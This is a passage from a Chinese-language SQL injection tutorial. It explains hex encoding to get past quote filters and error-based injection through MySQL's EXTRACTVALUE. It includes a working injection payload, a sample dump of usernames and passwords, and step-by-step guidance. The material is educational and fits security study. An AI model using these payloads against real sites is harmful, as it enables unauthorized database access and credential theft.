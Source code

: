 查询结果：

```
admin:admin123,user1:pass1234
```

为什么是0x3a:

	是':'的16进制/ascii编码，前面说了，sql中任何原本可以是字符串的静态内容，都可以使用16进制编码，因为会自动解码，编码是为了以防后端对'、:进行过滤。

### 4. 报错回显注入

#### 一、extractvalue

```
-- 正常用法
SELECT EXTRACTVALUE('<a><b>X</b><b>Y</b></a>', '//b[1]');  -- 返回 'X'
其中第一个是XML文档、第二个是XPATH表达式
```

当提供的 XPath 表达式无效时会出现此错误：

```
ERROR 1105 (HY000): XPATH syntax error: 'invalid expression'
```

比如：

```
SELECT EXTRACTVALUE('<a><b>X</b><b>Y</b></a>', '~b~');
```

```
ERROR 1105 (HY000): XPATH syntax error: '~b~'
```

可是为什么：

```
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+ 
```

不报：

```
ERROR 1105 (HY000): XPATH syntax error: 'concat(0x7e,(select database()),0x7e)‘
```

而是报：

```
ERROR 1105 (HY000): XPATH syntax error: '~database.name~‘
```

**原因：**

	extractvalue在执行之前会将参数中XPATH表达式先执行，然后再用结果去匹配XML，报错的时候invalid expression是执行后的结果，而不是原始的XPATH表达式。

##### 注入步骤：

1. 发现普通回显不行
2. 找到一个能够报错回显的函数
3. 走普通回显注入步骤
